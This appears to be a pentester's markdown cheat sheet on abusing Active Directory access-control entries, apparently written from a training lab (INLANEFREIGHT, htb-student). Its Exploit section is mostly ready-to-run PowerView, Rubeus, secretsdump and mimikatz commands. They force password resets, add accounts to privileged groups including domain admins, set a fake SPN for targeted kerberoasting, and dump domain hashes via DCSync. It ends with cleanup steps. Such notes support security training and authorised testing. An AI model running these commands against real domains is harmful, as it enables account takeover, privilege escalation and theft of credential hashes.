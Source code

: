 ```yaml
---
tags:
  - Add-Members
  - Addself
  - AllExtendedRights
  - DS-Replication-Get-Changes
  - ForceChangePassword
  - GenericAll
  - GenericWrite
  - Lateral-Movement
  - Persistence
  - Privilege-Escalation
  - Self-Membership
  - WriteDACL
  - WriteOwner
  - WriteProperty
  - AD
---
```


List of abusable ACEs
    
- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`
## Identify
---
**Windows (powerview)**
```Python
Find-InterestingDomainAcl
```
```Python
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
```
```PowerShell
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

!!! alert "Note"
	that if PowerView has already been imported, the cmdlet shown below will result in an error. Therefore, we may need to run it from a new PowerShell session.
	**Or just look at bloodhound**


**Manually**
```PowerShell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
```PowerShell
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
from here we would google the “ObjectType” entry to find the rights the GUID represents
# Exploit
---
## Force-Change-Password
---
```PowerShell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```
```PowerShell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```
```PowerShell
Import-Module .\Powerview.ps1
```
```PowerShell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
## Add-DomainGroupMember
---
```PowerShell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
```PowerShell
Import-Module .\Powerview.ps1
```
```PowerShell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
```PowerShell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
## GenericAll
---
**Targeted kerberoast**
```PowerShell
Import-Module .\Powerview.ps1
```
```PowerShell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
```PowerShell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
**Add user to domain admins**
```Bash
Net group "domain admins" <user> /add /domain
```
## DS-Replication-Get-Changes-All
---
From linux
```Bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
**From windows**
```Bash
runas /netonly /user:INLANEFREIGHT\adunn powershell
```
```Bash
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
## Cleanup considerations
---
**Removing the Fake SPN from adunn's Account**
```PowerShell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
**Removing damundsen from the Help Desk Level 1 Group**
```PowerShell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
Confirming damundsen was Removed from the Group
```PowerShell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```
